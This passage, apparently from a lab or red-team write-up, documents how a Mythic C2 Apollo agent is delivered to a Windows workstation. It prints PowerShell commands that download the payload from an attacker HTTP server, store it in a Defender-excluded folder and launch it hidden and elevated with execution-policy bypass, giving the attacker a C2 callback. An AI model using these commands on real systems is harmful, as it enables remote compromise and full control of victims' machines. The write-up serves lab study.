

## 5.6 Downloading and Executing the Payload

The **Apollo agent payload**, previously generated using the **Mythic C2** server interface, was downloaded to the victim workstation directly from the **HTTP server (port 4444)**.  
This event was recorded on the **Kali Linux** machine and is visible in **Figure 7**.

The PowerShell command was **encoded to Base64** before execution.

**Command before encoding:**

```powershell
Invoke-WebRequest -Uri http://192.168.2.10:4444/update_service_Mal.exe -OutFile "C:\Users\Public\Downloads\update_service_Mal.exe"
```

**Command after encoding (executed from `cmd.exe`):**

```powershell
powershell.exe -NoProfile -ExecutionPolicy Bypass -EncodedCommand [BASE64…]
```



**Figure 7 — HTTP server logs showing the victim downloading update_service_Mal.exe**

The file was saved in the directory that had been **excluded from Windows Defender scans**.

To ensure that the **Apollo agent** had **full access to the operating system**, it was launched with **elevated privileges**.  
This was done using the **Start-Process** cmdlet with the `-Verb RunAs` parameter, which triggered the **User Account Control (UAC)** prompt.  
This command was also encoded in Base64.

**Command before encoding:**

```powershell
Start-Process 'C:∖Users\Public\Downloads\update_service_Mal.exe' -WindowStyle Hidden -Verb RunAs
```

**Command after encoding (executed from `cmd.exe`):**

```powershell
powershell.exe -WindowStyle Hidden -NoProfile -ExecutionPolicy Bypass -EncodedCommand [BASE64...]
```

After executing `update_service_Mal.exe`, the **Apollo agent established its first connection (callback)** to the **Mythic C2 server**.  
This session ran with **Administrator privileges**, allowing full control over the victim system from the C2 interface.
